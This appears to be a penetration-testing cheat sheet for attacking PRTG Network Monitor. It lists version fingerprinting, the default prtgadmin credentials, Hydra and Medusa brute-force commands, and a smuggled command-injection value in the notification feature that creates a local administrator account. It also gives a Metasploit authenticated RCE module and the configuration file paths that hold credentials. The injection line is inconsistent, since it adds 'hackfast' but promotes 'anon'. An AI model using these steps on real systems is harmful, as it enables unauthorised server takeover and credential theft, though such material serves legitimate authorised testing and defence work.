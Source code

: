 ### **INTRODUCTION**

PRTG Network Monitor is a comprehensive network monitoring tool that allows businesses to observe and manage their IT infrastructure. It provides real-time data on the health and performance of network devices, servers, and services, enabling IT administrators to detect outages, optimize performance, and ensure system reliability. PRTG supports a wide range of technologies and comes with flexible alerting, reporting capabilities, and an intuitive interface for easy operation.

### **DEFAULT CONFIGURATION AND CREDENTIALS**

1.  Identify PRTG version  
    `curl -s http://[PRTG-DOMAIN]/index.htm -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" | grep version`
2.  Check if the PRTG default administrator credentials (prtgadmin:prtgadmin) are in use by accessing the login page:  
    `http://[PRTG-DOMAIN]/index.htm`

### **BRUTE-FORCE PRTG CREDENTIALS**

1.  Brute-Forcing with Hydra:  
    `hydra -l admin -P /path/to/passwords.txt [PRTG-DOMAIN] http-post-form "/public/checklogin.htm:login=^USER^&password=^PASS^:Login failed"`
2.  Brute-Forcing with Medusa:  
    `medusa -h [PRTG-DOMAIN] -u admin -P /path/to/passwords.txt -M http -m DIR:/public/checklogin.htm -m POST:login=^USER^&password=^PASS^ -T 10`

### **COMMAND INJECTION**

1.  Access Notifications Configuration:  
    `Navigate to Setup > Account Settings > Notifications.`
2.  Add New Notification:  
    `Click the plus button on the right and select "Add new notification"`
3.  Configure Notification:  
    `Leave everything unchanged, scroll down to the bottom and select “Execute Program”.`
4.  Choose a demo PowerShell script (e.g., demo.ps1) as the program file.
5.  In the Parameter field, enter the following command:  
    `test.txt;net user hackfast p3nT3st! /add;net localgroup administrators anon /add`
6.  Save the notification.
7.  In the list of notifications, check the box next to the new notification.
8.  Click the bell icon at the top to test the notification.

### **REMOTE CODE EXECUTION (RCE)**

1.  Open Metasploit Console:  
    `msfconsole`
2.  Search for PRTG-Related Exploits:  
    `searchsploit PRTG`
3.  Use the Identified Exploit Module:  
    `use exploit/windows/http/prtg_authenticated_rce`
4.  Setting the Target Host:  
    `set RHOSTS [PRTG-URL]`
5.  Setting the Username:  
    `set ADMIN_USERNAME admin`
6.  Setting the Password:  
    `set ADMIN_PASSWORD prtgadmin`
7.  Executing the Exploit:  
    `exploit`

**EXTRACT CONFIGURATION AND DATA**:

1.  Access PRTG Configuration to extract credentials and settings:  
    `\ProgramData\Paessler\PRTG Network Monitor`  
    `PRTG Configuration.dat`  
    `PRTG Configuration.old.bak`
2.  it always looks like this:
    
    ```
    <dbpassword>
        <flags>
            <encrypted/>
        </flags>
    </dbpassword>
    ```